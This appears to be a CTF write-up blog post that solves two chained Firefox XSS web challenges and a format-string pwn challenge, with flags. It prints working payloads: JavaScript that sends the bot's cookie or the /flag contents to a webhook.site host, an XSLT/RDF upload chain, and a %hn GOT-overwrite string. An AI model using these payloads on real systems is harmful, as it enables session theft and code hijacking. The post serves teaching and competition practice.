



:::caution
Spoilers ahead. This post includes solution details, payloads, and flags.
:::

PolyU FYP 2026 had a style I really enjoyed. The challenges did not fall to the first obvious idea. Each one asked for one more step of thinking, which made the final solve feel much better.

This post collects two linked web challenges and one short pwn challenge. The web pair is especially fun because the second one only makes sense after the first one becomes a reliable helper.

---

## [Web] File Uploader

`File Uploader` looked simple at first: upload a file, then report a URL to the bot. But the real trick was not server-side code execution. The real trick was to make Firefox load an *active* document under the internal uploader origin.

### What I saw first

The visible page was minimal:

```text
File Uploader
```

That did not tell me much by itself, so the source and the solve notes mattered much more. Three details shaped the challenge:

- uploads were saved as `*.sandbox`
- filename filtering was a weak substring blacklist
- the admin bot only visited `http://file_uploader_app/...` URLs and carried the flag in a readable cookie

So the goal became:

1. host something active under `file_uploader_app`
2. make Firefox execute same-origin JavaScript
3. read `document.cookie`
4. send it to my webhook

### Dead ends I ruled out

The first instinct is to try normal HTML or script uploads. That was not enough here.

Several extensions looked promising but went nowhere:

- `.xul`
- `.hta`
- `.smil`
- `.xspf`
- `.rss`
- `.wsdl`
- `.vxml`

Most of them downloaded, rendered as plain text, or stayed inert in Firefox. That was the turning point of the challenge: special MIME handling is not the same thing as active script execution.

:::warning
The challenge was not about getting *any* file rendered. It was about getting the *right chain* rendered in Firefox.
:::

### Step 1: Upload the JavaScript payload

The working chain started with a same-origin JavaScript file:

```js
top.location = 'https://webhook.site/<token>/?c=' + encodeURIComponent(document.cookie)
```

I uploaded it as `exp.mjs`, which became something like:

```text
uploads/<sandbox>/exp.mjs.sandbox
```

This mattered because Firefox still treated the file as JavaScript, and the uploader origin matched the bot's allowed host.

### Step 2: Upload the XSLT stylesheet

Next I uploaded `style.rng` with an XSLT payload that turned XML into HTML and loaded the `.mjs` file:

```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <html>
      <head>
        <script src="/uploads/<sandbox>/exp.mjs.sandbox"></script>
      </head>
      <body>WAIT</body>
    </html>
  </xsl:template>
</xsl:stylesheet>
```

That file became:

```text
uploads/<sandbox>/style.rng.sandbox
```

### Step 3: Upload the RDF entry point

The final entry point was `exp.rdf`:

```xml
<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="/uploads/<sandbox>/style.rng.sandbox"?>
<root/>
```

Once uploaded, this became the URL I wanted the bot to visit:

```text
http://file_uploader_app/uploads/<sandbox>/exp.rdf.sandbox
```

### Step 4: Let the bot execute the chain

The success condition was not a flashy page. The success condition was the bot loading the RDF, applying the XSLT, then executing the `.mjs` file under the uploader origin.

If that worked, the webhook received something like:

```text
?c=flag=FYPCTF26{...}
```

That cookie value was the real answer.

### Why the chain worked

The whole solve looked like this:

1. `exp.rdf.sandbox` loads as XML
2. Firefox applies `style.rng.sandbox`
3. the stylesheet outputs HTML
4. the HTML loads `exp.mjs.sandbox`
5. same-origin JavaScript executes
6. `document.cookie` exposes the flag cookie
7. the cookie is redirected to the webhook

This lines up with MDN's `document.cookie` behavior: JavaScript can read and write cookies for the current document unless they are protected in a way that blocks script access. In this challenge, the bot's `flag` cookie was readable, so once the payload ran in the right origin, stealing it was straightforward.

### Concept map



:::note[Flag]
`FYPCTF26{Weird_Apache_and_browser_quirks_hope_you_like_it}`
:::

---

## [Web] Themes Lover 2

`Themes Lover 2` is built like a follow-up challenge. The edit-user path is gone, a new bug takes its place, and the hint directly tells me I need an XSS from another challenge. So instead of solving it alone, I have to bring a working primitive from somewhere else.

### What made it interesting

The homepage looked normal enough:

```text
Welcome to Themes Lover 2!
Please login or register to save your theme preferences.
```

But the real bug lived in the `welcome_message` cookie path. The page read the cookie, assigned it to a detached element with `innerHTML`, then copied `innerText` into the visible DOM.

That is a strange pattern. In Chromium it looks mostly harmless. In Firefox, though, it can still become active in the right conditions.

MDN describes `innerHTML` as an injection sink, which is exactly why this code path is dangerous. Even though the final visible assignment used `innerText`, the risky part had already happened one line earlier when attacker-controlled content was parsed as HTML.

### Why this was a cross-challenge solve

:::important
Siunam already gave us the key hint in the challenge text: we needed an XSS from another challenge.
:::

`File Uploader` was the perfect fit because it let me host active content under the same public challenge host. So I reused the first challenge as a launchpad.

This was not just a story-level connection. The source code then makes the link very clear. In `File Uploader`, the bot adds a readable `flag` cookie before it visits my uploaded page. In `Themes Lover 2`, the admin bot logs in first and then visits the URL I report. And inside the page layout, the `welcome_message` cookie is read back and pushed through this sink:

```js
p.innerHTML = welcomeMessage;
welcomeMessageElement.innerText = p.innerText;
```

So `File Uploader` gives me the helper page that can run under the right origin, and `Themes Lover 2` gives me the Firefox-specific sink plus the admin-only `/flag` endpoint. That is why the cross-challenge route is the intended solve, not just a clever shortcut.

### Source-code proof that the two challenges connect

This link is not just a guess from the hint. The source code supports it.

On the `File Uploader` side, the bot sets a readable cookie named `flag` before it visits my uploaded page:

```js
await context.addCookies([{
  name: 'flag',
  value: FLAG,
  domain: CONFIG['APPDOMAIN'],
  path: '/',
  httpOnly: false,
  sameSite: 'Strict',
}])
```

That is from:

```text
web/File Uploader/work/file_uploader/bot/bot.js
```

On the `Themes Lover 2` side, the admin bot logs in first, then visits any URL I submit to `/report`:

```python
await page.goto(f'{BOT_CONFIG["APP_URL"]}/login', wait_until='load')
await page.fill('input[name="username"]', ADMIN_USERNAME)
await page.fill('input[name="password"]', ADMIN_PASSWORD)
...
await page.goto(urlToVisit, wait_until='load')
```

And the target app only returns `/flag` for the admin account:

```python
if not g.user or g.user['role'] != 'admin':
    return redirect(url_for('index'))
return FLAG, 200, {'Content-Type': 'text/plain'}
```

Finally, the sink that makes the whole attack work is the `welcome_message` cookie handling:

```js
const welcomeMessage = getCookie('welcome_message');
...
p.innerHTML = welcomeMessage;
welcomeMessageElement.innerText = p.innerText;
```

So the chain is very direct:

1. `File Uploader` gives me an active same-origin helper page
2. that helper plants `welcome_message`
3. the `Themes Lover 2` bot arrives already logged in as admin
4. Firefox processes the cookie sink
5. the payload fetches `/flag`

### Dead end: treating File Uploader like normal hosting

At first I tried the lazy version of the idea: upload something that *looked* script-like and let the bot visit it. That failed for the same reason it failed in the first challenge. A lot of files were visible but inert.

So I went back to the same reliable `.mjs + .rng + .rdf` chain.

### Step 1: Build the helper payload

This time the JavaScript did not just steal a cookie. It first planted a malicious `welcome_message` cookie, then redirected the bot into `Themes Lover 2`.

The payload looked like this:

```js
const payload = `r.text()).then(f=>location='https://webhook.site/.../?stage=flag&f='+encodeURIComponent(f)).catch(e=>location='https://webhook.site/.../?stage=err&e='+encodeURIComponent(String(e)))">`;
document.cookie = 'welcome_message="' + payload + '"; path=/';
location = 'http://challenge.hacktheflag.one:30070/';
```

So the helper page had two jobs:

1. set `welcome_message`
2. send the admin browser into the target app

### Step 2: Trigger the admin bot

After the bot visited the helper URL, Firefox executed the uploader chain, set the cookie, then landed in `Themes Lover 2` while still authenticated as admin.

At that point, the target application did the rest:

1. read `welcome_message`
2. feed it through the detached-node sink
3. execute the payload in Firefox
4. fetch `/flag`
5. send the flag to the webhook

The webhook success pattern looked like this:

```text
?stage=flag&f=FYPCTF26{...}
```

### Why this solve felt good

I liked this challenge because the cross-challenge dependency was not fake. `File Uploader` really was the missing piece. Without it, `Themes Lover 2` would have been annoying. With it, the exploit became elegant.

:::important
The hard part was not writing the final payload. The hard part was realizing that the real exploit lives across both challenges.
:::

### Concept map



:::note[Flag]
`FYPCTF26{Cross_challenges_are_the_goat_fire_emoji_fire_emoji_fire_emoji}`
:::

---

## [Pwn] Logging Lover

`Logging Lover` is short, but it is very clean. Once I understood how the arguments flowed into `syslog`, the exploit was basically a direct GOT overwrite.

### Step 1: Check the binary properties

The first pass gave exactly the conditions I wanted:

- no PIE
- partial RELRO
- NX enabled

That meant two very good things:

1. `win()` had a fixed address
2. GOT entries were still writable

So a classic format-string GOT overwrite was realistic.

### Step 2: Understand the bug

The vulnerable function was tiny:

```c
void log_message(char *msg, ... ) {
    syslog(3, msg);
}
```

So my input became the format string for `syslog()`.

That alone is already enough for trouble, but the caller made it even better. Right before calling `log_message()`, the program loaded these values:

- `rdx = puts@GOT`
- `rcx = puts@GOT + 2`
- `r8  = puts@GOT + 4`
- `r9  = win`

So the format string already had all the addresses it needed. I did not need a leak or any fancy setup.

### Step 3: Split the target address

The goal was simple:

```text
*(puts@GOT) = win
```

With `win = 0x401285`, I split it into 16-bit writes:

```text
0x0000 -> puts@GOT + 4
0x0040 -> puts@GOT + 2
0x1285 -> puts@GOT
```

Then I used `%hn` writes to place those values one chunk at a time.

### Step 4: Use the payload

The payload was:

```text
%3$hn%5$64c%2$hn%5$4677c%1$hn
AAAA
```

Why it works:

1. `%3$hn` writes `0` to `puts@GOT+4`
2. `%5$64c` makes the total count `0x0040`
3. `%2$hn` writes that to `puts@GOT+2`
4. `%5$4677c` pushes the total count to `0x1285`
5. `%1$hn` writes that to `puts@GOT`

So the GOT entry becomes the address of `win()`.

Then the program calls `puts("Logged.")`, but now that call lands in `win()` instead.

### Step 5: Mind the remote nuance

Locally, the exploit only printed a fake flag. The real solve had to happen on the remote service.

The remote wrinkle was proof-of-work. The token changed on each connection, so the solve order had to be:

1. connect
2. read the token
3. solve that exact token
4. send the solution back on the same connection
5. send the format-string payload

That is the kind of detail that is easy to ignore when the binary bug itself is straightforward.

If everything works, the remote session should leave the normal logging path and print the admin/debug output with the real flag instead of the local fake one.

For the exploit script itself, pwntools was useful in the usual way: quick remote connections, simple send/recv flow, and fast iteration while testing the final payload.

### Concept map



:::note[Flag]
`FYPCTF26{fmt_strings_are_logging_superpowers}`
:::

::github{repo="Gallopsled/pwntools"}

---

## References

- [MDN: Document.cookie](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie) - useful for the File Uploader cookie-reading step, because the final exfil path depends on JavaScript being able to read the bot's cookie.
- [MDN: Element.innerHTML](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML) - directly related to the Themes Lover 2 sink; MDN explicitly warns that `innerHTML` is an injection sink.
- [OWASP Cross Site Scripting Prevention Cheat Sheet](https://owasp.org/www-community/attacks/xss/) - a good general reference for why attacker-controlled HTML in a browser context is dangerous, even when the code path looks unusual.
- [pwntools documentation](https://docs.pwntools.com/) - relevant for the Logging Lover remote exploit flow and the final scripted interaction with the service.
